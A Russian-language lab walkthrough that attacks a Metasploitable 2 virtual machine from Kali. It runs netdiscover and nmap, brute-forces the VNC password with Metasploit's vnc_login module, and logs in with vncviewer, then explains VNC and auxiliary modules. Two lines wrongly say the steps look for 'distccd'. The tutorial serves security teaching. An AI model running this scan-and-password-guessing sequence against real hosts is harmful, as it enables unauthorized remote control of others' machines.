






Предполагается что все действия выполняются на виртуальных машинах VirtualBox.
Начинаем атаку на удаленную машину Metasploitable 2.
Необходимо определить IP с машиной Metasploitable 2. Для этого сначала определим наш IP и маску подсети, для этого дадим команду в терминале Kali:
ifconfig
В результатах вывода команды выше, можно увидеть такую строку:
inet 10.0.2.4 netmask 255.255.255.0
То есть наш IP 10.0.2.4 а диапазон IP адресов нашей сети 10.0.2.0/24 (это обяснялось ранее в предыдущих статьях).
Для обнаружения других компьютеров в сети и в том числе нашей удаленной машины Metasploitable 2, дадим команду в терминале Kali:
sudo netdiscover -r 10.0.2.0/24
В выводе команды:
10.0.2.2 08:00:27:3a:17:ed 1 60 PCS Systemtechnik GmbH 10.0.2.3 08:00:27:f1:18:5a 1 60 PCS Systemtechnik GmbH
10.0.2.2 - это виртуальный роутер, который управляет нашей сетью.
10.0.2.3 - это наша машина (по логике) с Metasploitable 2.
Проверим связь между нашей Kali и удаленной ВМ Metasploitable 2, дадим команду:
ping 10.0.2.3
Если сеть в VirtualBox настроена правильно, видим пинг идет, связь есть.
На Kali выполняем команду в терминале что бы найти distccd:
nmap -sC -sV 10.0.2.3
В выводе nmap находим такую строку (сриншот ниже):
5900/tcp open vnc VNC (protocol 3.3)
Это значит на порту 5900 открыта служба VNC (скриншот ниже).

Запускаем консоль метсплоит:
msfconsole
После запуска метасплоит даем команду поиска distccd:
msf > search vnc
msf > use auxiliary/scanner/vnc/vnc_login
msf auxiliary(scanner/vnc/vnc_login) > set RHOSTS 10.0.2.3
msf auxiliary(scanner/vnc/vnc_login) > run
Как видим на скриншоте ниже, пароль успешно подобран, и пароль слово - password (скриншот ниже).
После подбора пароля в метасплоит даем команду выхода exit.

Мы успешно подобрали пароль сканером, теперь можем сделать вход в удаленную систему, дать команду в терминале Kali:
vncviewer 10.0.2.3На запрос пароля вводим слово:
password

И видим (скриншот ниже) мы успешно вошли в Metasploitable 2.

Например далее дадим команду ifconfig, и получим IP 10.0.2.3 - что указывает на Metasploitable 2.

Далее дадим команду xlock и видим запустились часы:

Это пример проверки VNC-сервера на наличие слабого пароля в рамках тестирования безопасности (например, на своей машине или в лаборатории).
Что такое VNC?
VNC (Virtual Network Computing) — это система удаленного управления компьютером.
Она позволяет видеть рабочий стол удаленного компьютера и управлять мышью и клавиатурой.
Стандартный порт VNC:
5900/TCP — первый дисплей
5901 — второй
5902 — третий и т.д.
Что такое auxiliary?
В Metasploit есть несколько типов модулей.
auxiliary — это вспомогательные модули.
Они не выполняют эксплуатацию уязвимости.
Они могут:
сканировать сеть;
подбирать пароли;
собирать информацию;
проверять сервисы.
То есть этот модуль предназначен только для проверки аутентификации VNC.
После запуска модуль начинает проверять возможность входа.
Обычно он:
подключается к VNC; пытается выполнить аутентификацию с использованием словаря паролей или заданного пароля; если вход успешен — сообщает найденный пароль.
Например:
[+] 192.168.79.179:5900 - Login Successful: password
Подключение через VNC-клиент
vncviewer 192.168.79.179
vncviewer — это программа-клиент VNC.
Она подключается к серверу.
Общая схема процесса
Компьютер A
│
│ сканирование
▼
Обнаружен порт 5900
│
▼
Запускается модуль vnc_login
│
▼
Проверяется возможность входа
│
▼
Пароль найден
│
▼
Запускается VNC Viewer
│
▼
Вводится пароль
│
▼
При успешной аутентификации открывается удаленный рабочий стол
Во многих старых или неправильно настроенных системах VNC мог использовать слабые или стандартные пароли. Поэтому при аудите безопасности проверяют, насколько надежно защищен VNC-сервер, чтобы убедиться, что неавторизованные пользователи не смогут получить удаленный доступ.